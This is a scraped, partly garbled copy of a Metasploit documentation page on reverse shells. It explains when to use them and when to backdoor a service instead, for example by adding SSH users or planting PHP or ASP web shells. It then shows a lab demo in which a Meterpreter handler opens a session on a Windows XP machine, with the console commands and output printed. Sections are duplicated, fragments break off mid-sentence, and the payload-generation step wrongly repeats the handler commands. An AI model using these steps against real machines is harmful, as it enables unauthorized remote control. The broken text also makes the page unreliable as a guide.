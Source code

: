 ## On this page
## List of Metasploit reverse shells
To get a list of reverse shells, use the `msfpayload` command. B
```bash
./msfpayload -l |grep reverse
```

### Windows common reverse shell
### Linux common reverse shell
## When to use a reverse shell
## When a reverse shell isn't needed
## How to set up for a reverse shell during payload generation
## Demonstration
### Step 1: Generate the executable payload
On the attacker's box, run `msfpayload` or `msfvenom`:
```bash
$ ./msfconsole -q
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 192.168.1.123
lhost => 192.168.1.123
msf exploit(handler) > set lport 4444
lport => 4444
msf exploit(handler) > run

[*] Started reverse handler on 192.168.1.123:4444
[*] Starting the payload handler...
```

### Step 2: Copy the executable payload to box B
### Step 3: Set up the payload handler on box A
Box A is the attacker machine.
```bash
$ ./msfconsole -q
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 192.168.1.123
lhost => 192.168.1.123
msf exploit(handler) > set lport 4444
lport => 4444
msf exploit(handler) > run

[*] Started reverse handler on 192.168.1.123:4444
[*] Starting the payload handler...
[*] Sending stage (770048 bytes) to 192.168.1.80
[*] Meterpreter session 1 opened (192.168.1.123:4444 -> 192.168.1.80:1138) at 2014-10-22 19:03:43 -0500
meterpreter >
```

`bash
./msfpayload -l |grep reverse
`

` has been the most stable.

## When to use a reverse shell

If you find yourself in one of the following scenarios, then you should consider using a reverse shell:

* The target machine is behind a different private network.
* The target machine's firewall blocks incoming connection attempts to your bindshell.
* Your payload is unable to bind to the port it wants due to whatever reason.
* You can't decide what to choose.

## When a reverse shell isn't needed

Generally speaking, if you can backdoor an existing service, you may not need a reverse shell. For example, if the target machine is already running an SSH server, then you can try adding a new user to it and use that.

If the target machine is running a web server that supports a server-side programming language, then you can leave a backdoor in that language. For example, many Apache servers support PHP, then you can use a PHP "web shell". IIS servers usually support ASP or ASP.net. The Metasploit Framework offers payloads in all these languages and many others.

This also applied to VNC, remote desktop, SMB (psexec), or other remote admin tools, etc.

## How to set up for a reverse shell during payload generation

When you generate a reverse shell with either `

`, you must know how to configure the following:

* **LHOST** - This is the IP address you want your target machine to connect to. If you're in a local area network, it is unlikely your target machine can reach you unless you both are on the same network. In that case, you will have to [find out your public-facing IP address](https://www.google.com/webhp?q=ip#q=ip), and then configure your network to port-forward that connection to your box. LHOST should not be "localhost", or "0.0.0.0", or "127.0.0.1", because if you do, you're telling the target machine to connect to itself (or it may not work at all).
* **LPORT** - This the port you want your target machine to connect to.

When you set up a listener for the reverse shell, you also at least need to configure LHOST and LPORT, but slightly different meanings (different perspective):

* **LHOST** - This is the IP address you want your listener to bind to.
* **LPORT** - This is the port you want your listener to bind to.

You should make sure the listener has started first before executing the reverse shell.

## Demonstration

In this demonstration, we have two boxes:

**Box A:**

* The attacker's box that receives the payload session
* IP is: 192.168.1.123 (ifconfig)
* On the same network as the victim machine

**Box B:**

* The "victim" machine
* Windows XP
* IP is: 192.168.1.80 (ipconfig)
* On the same network as the attacker machine
* For testing purposes, no antivirus enabled.
* For testing purposes, no firewall enabled, either.

### Step 1: Generate the executable payload

On the attacker's box, run `

`bash
$ ./msfconsole -q
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 192.168.1.123
lhost => 192.168.1.123
msf exploit(handler) > set lport 4444
lport => 4444
msf exploit(handler) > run

[*] Started reverse handler on 192.168.1.123:4444
[*] Starting the payload handler...
`

`bash
$ ./msfconsole -q
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 192.168.1.123
lhost => 192.168.1.123
msf exploit(handler) > set lport 4444
lport => 4444
msf exploit(handler) > run

[*] Started reverse handler on 192.168.1.123:4444
[*] Starting the payload handler...
[*] Sending stage (770048 bytes) to 192.168.1.80
[*] Meterpreter session 1 opened (192.168.1.123:4444 -> 192.168.1.80:1138) at 2014-10-22 19:03:43 -0500
meterpreter >
`

